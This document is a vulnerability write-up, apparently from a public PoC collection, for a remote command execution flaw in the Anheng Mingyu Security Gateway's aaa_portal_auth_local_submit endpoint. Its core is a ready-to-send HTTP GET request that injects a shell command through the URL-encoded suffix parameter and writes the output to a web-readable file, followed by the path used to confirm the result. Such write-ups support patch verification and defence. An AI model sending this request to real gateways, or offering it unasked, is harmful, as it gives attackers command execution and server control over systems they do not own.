 # Anheng Mingyu Security Gateway aaa_portal_auth_local_submit Remote Command Execution Vulnerability

## Vulnerability Description

Anheng Mingyu Security Gateway aaa_portal_auth_local_submit There is a remote command execution vulnerability, and an attacker can obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Anheng Mingyu Security Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648357678171-6c786cb6-1bdb-43c0-a94b-4c2ed4ff3cd0.png)

Verify POC

```plain
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix=%7B%7Burlenc%28%60id%20%3E%2Fusr%2Flocal%2Fwebui%2Ftest.txt%60%29%7D%7D HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692062626150-36022103-f317-4818-bac9-f11851fbd281.png)

```plain
/test.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692062651462-caaf6133-21b4-4566-947b-a9fe6e2f2502.png)